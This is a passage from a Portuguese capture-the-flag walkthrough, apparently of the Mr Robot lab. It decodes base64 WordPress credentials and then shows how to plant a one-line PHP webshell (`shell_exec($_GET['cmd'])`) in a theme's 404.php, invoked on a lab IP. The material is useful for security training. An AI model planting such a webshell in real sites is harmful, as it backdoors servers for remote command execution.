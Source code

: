 Tentei usar na pagina de login do wordpress e sem sucesso.

ZWxsaW90OkVSMjgtMDY1Mgo=

Suspeitei que era encode base 64 e tentei o comando abaixo:
![Alt text](/assets/img/mrrobot4.png)

elliot:ER28-0652

Logado com sucesso no wordpress.

## **Acesso**

Após logar no wordpress vamos editar a pagina 404.php adicionando 

`echo shell_exec($_GET["cmd"]);`

para ter uma webshell na pagina 404.php

![Alt text](/assets/img/mrrobot6.png)

Depois de salvar a pagina acima basta acessar: http://10.10.57.1/wp-content/themes/twentyfifteen/404.php?cmd=id
Se funcionou qualquer comando será listado na pagina como abaixo.
![Alt text](/assets/img/mrrobot7.png)
